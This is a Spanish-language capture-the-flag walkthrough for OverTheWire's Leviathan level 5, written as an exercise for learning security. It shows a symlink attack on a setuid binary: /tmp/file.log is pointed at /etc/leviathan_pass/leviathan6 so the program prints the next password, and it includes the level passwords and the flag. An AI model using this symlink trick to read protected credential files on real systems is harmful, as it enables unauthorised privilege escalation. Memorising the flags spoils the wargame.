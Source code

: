 ## Leviathan Level 5 → Level 6

## Level Goal

There is no information for this level, intentionally.

## Write Up Iker 

Fácil. Tenemos que conectarnos por **SSH** a la dirección **leviathan.labs.overthewire.org** en el puerto **2223** con los siguientes datos:

```bash
  - User: leviathan5
  - Pass: Tith4cokei
```

Escribimos el siguiente comando en la consola:
  
```bash 
$ ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

Accedemos sin problemas y vemos que no hay ningun fichero

```bash
leviathan5@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan6 leviathan5 7642 Jun 15 11:38 leviathan5
```
Ejecutamos el fichero.

```bash
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5 
__libc_start_main(0x80485ed, 1, 0xffffd7f4, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                                                   = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                                                                             = 26
exit(-1 <no return ...>
+++ exited (status 255) +++

```

```
Tras ejecutar el comando **ltrace** vemos que ejecuta una funcion de lectura sobre **/tmp/file.log** . 

Vamos a crear un **enlace simbólico** a la carpeta donde se encuentran las contraseñas **/etc/leviathan_pass/leviathan6** con el objetivo que lea el contenido de ese fichero al ejecutar la funcion **fopen**.

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan6 leviathan5 7642 Jun 15 11:38 leviathan5
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```

¡Obtenemos la contraseña! :beer:

:v: :sunglasses: :v:

**FLAG** = {UgaoFee4li} 
